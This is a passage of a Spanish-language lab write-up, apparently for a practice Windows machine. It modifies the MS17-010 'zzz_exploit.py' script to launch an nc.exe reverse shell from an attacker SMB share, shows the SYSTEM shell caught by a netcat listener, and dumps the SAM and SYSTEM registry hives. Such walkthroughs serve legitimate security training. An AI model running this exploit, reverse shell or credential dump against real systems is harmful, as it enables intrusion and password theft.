 Una vez hecho esto ya funcionará el `exploit`, pero estará creando un archivo `pwned.txt`, que a nosotros no nos interesa. Para que nos mande una `reverse shell` debemos `modificar` este `método` de `python`

```
def smb_pwn(conn, arch):
	#smbConn = conn.get_smbconnection()
	
	#print('creating file c:\\pwned.txt on the target')
	#tid2 = smbConn.connectTree('C$')
	#fid2 = smbConn.createFile(tid2, '/pwned.txt')
	#smbConn.closeFile(tid2, fid2)
	#smbConn.disconnectTree(tid2)
	
	#smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
	service_exec(conn, r'cmd /c \\10.10.16.35\smbFolder\nc.exe -e cmd 10.10.16.35 9003')
	# Note: there are many methods to get shell over SMB admin session
	# a simple method to get shell (but easily to be detected by AV) is
	# executing binary generated by "msfvenom -f exe-service ..."
```

Una vez hecho esto `ejecutamos` el `exploit`

```
# python2 zzz_exploit.py 10.129.204.243 lsarpc
```

`Obtenemos` una `consola` como el usuario `Administrator`

```
# nc -nlvp 9003                                       
listening on [any] 9003 ...
connect to [10.10.16.35] from (UNKNOWN) [10.129.204.243] 49160
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
## Extras (Dump SAM and SYSTEM)

Nos `dumpeamos` la `sam` y el `system` de forma local

```
C:\Windows\Temp\PostExploitation> reg save hklm\sam C:\Windows\Temp\PostExploitation\sam
The operation completed successfully.

C:\Windows\Temp\PostExploitation> reg save hklm\system C:\Windows\Temp\PostExploitation\system
The operation completed successfully.

C:\Windows\Temp\PostExploitation> dir
 Volume in drive C has no label.
 Volume Serial Number is BE92-053B

 Directory of C:\Windows\Temp\PostExploitation

11/08/2024  12:36    <DIR>          .
11/08/2024  12:36    <DIR>          ..
11/08/2024  12:36            24,576 sam
11/08/2024  12:36        10,649,600 system
               2 File(s)     10,674,176 bytes
               2 Dir(s)   2,416,324,608 bytes free
```
